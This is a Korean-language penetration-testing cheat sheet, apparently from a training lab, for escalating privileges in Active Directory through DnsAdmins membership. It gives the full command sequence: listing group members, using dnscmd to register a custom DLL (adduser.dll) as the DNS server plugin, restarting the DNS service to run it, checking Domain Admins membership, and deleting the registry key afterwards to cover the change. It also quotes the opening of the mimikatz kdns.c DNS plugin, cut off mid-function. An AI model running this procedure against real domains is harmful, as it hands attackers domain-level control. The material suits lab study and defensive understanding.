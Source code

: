 ```
### DnsAdmins의 멤버로 DLL 로딩
```Get-ADGroupMember -Identity DnsAdmins```

### 사용자 정의 DLL 로딩 (전체 경로 지정해야 함)
```dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll```

### 사용자의 SID 찾기
```wmic useraccount where name="netadm" get sid```

### DNS 서비스에 대한 권한 확인
```sc.exe sdshow DNS```

### DNS 서비스 중지
```sc stop dns```

### DNS 서비스 시작
```sc start dns```

### 그룹 멤버십 확인
```net group "Domain Admins" /dom```

<br/><br/>
## Cleaning Up

### 레지스트리 키 추가 확인
```reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters```

### 레지스트리 키 삭제
```reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll```

### DNS 서비스 다시 시작
```sc.exe start dns```

### DNS 서비스 상태 확인
```sc query dns```

<br/><br/>
## Mimilib.dll 사용하기
- 참고 : [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)
- [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)
- [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c)
```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
```
